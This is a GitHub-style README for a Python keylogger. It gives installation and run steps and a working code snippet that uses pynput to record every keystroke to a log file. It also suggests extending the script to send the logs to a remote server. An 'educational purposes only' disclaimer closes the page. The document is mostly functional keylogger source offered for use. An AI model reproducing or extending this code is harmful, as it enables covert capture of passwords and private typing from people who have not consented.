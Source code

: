 # keylogger

📋 Table of Contents
Features
Installation
Usage
How It Works
Customization
Legal Disclaimer
🚀 Features
Captures all alphanumeric and special keys (e.g., space, enter, backspace).
Logs keystrokes in real-time to a file (log.txt).
Lightweight and easy to set up.
📦 Installation
Clone the Repository

bash
Copy code
git clone https://github.com/yourusername/keylogger-python.git
cd keylogger-python
Create a Virtual Environment (Optional but Recommended)

bash
Copy code
python -m venv venv
source venv/bin/activate  # On Windows use `venv\\Scripts\\activate`
Install Dependencies

Make sure you have Python installed (version 3.6 or above).
Install the required Python libraries:
bash
Copy code
pip install pynput
🛠️ Usage
Run the Keylogger

bash
Copy code
python keylogger.py
Viewing Logs

The keystrokes will be saved in a file named log.txt located in the same directory.
Open log.txt to view the captured keystrokes.
🧐 How It Works
This keylogger uses the pynput library to listen for keyboard events.
Every time a key is pressed:
Alphanumeric characters are logged directly.
Special keys (like space, enter, and tab) are logged with their respective actions.
The captured keystrokes are stored in a log.txt file for analysis.
Sample Code Snippet
python
Copy code
from pynput.keyboard import Key, Listener

def write_file(char):
    with open('log.txt', 'a') as f:
        f.write(char)

def on_press(key):
    try:
        if key.char:
            write_file(key.char)
    except AttributeError:
        if key == Key.space:
            write_file(' ')
        elif key == Key.enter:
            write_file('\n')

with Listener(on_press=on_press) as listener:
    listener.join()
⚙️ Customization
Change Log File Name:
Modify the log.txt to any preferred filename in the write_file function.
Add Network Capability:
You can extend this script to send logs to a remote server using the requests library.
⚠️ Legal Disclaimer
This keylogger is developed for educational purposes only. Unauthorized use of this tool to capture keystrokes on devices you do not own or without explicit permission is illegal and unethical. Always seek permission before using this tool on any system.

The author is not responsible for any misuse of this tool.

Next Steps:

